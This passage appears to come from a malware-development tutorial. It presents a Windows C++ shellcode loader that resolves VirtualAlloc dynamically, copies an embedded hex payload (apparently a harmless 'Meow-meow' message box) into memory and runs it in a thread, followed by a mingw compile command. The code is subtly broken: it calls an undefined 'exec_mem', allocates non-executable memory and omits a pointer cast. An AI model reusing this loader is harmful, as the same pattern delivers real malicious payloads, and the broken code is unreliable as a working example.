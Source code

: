 Then, the actual way to execute shellcode is something like this (`meow.cpp`):    

```cpp
#include <windows.h>

LPVOID (WINAPI * pVirtualAlloc)(
LPVOID lpAddress, SIZE_T dwSize, 
DWORD flAllocationType, DWORD flProtect);

unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";


int main() {
  HMODULE hk32 = GetModuleHandle("kernel32.dll");
  pVirtualAlloc = GetProcAddress(hk32, "VirtualAlloc");
  PVOID lb = pVirtualAlloc(0, sizeof(my_payload),
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
  memcpy(lb, my_payload, sizeof(my_payload));
  HANDLE th = CreateThread(0, 0, 
  (PTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
  WaitForSingleObject(th, -1);
}
```

So this code contains very basic logic for executing payload. In this case, for simplicity, it's use "meow-meow" messagebox payload.    

Let's compile it:

```bash
x86_64-w64-mingw32-g++ meow.cpp -o meow.exe \
-mconsole -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-Wint-to-pointer-cast -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```
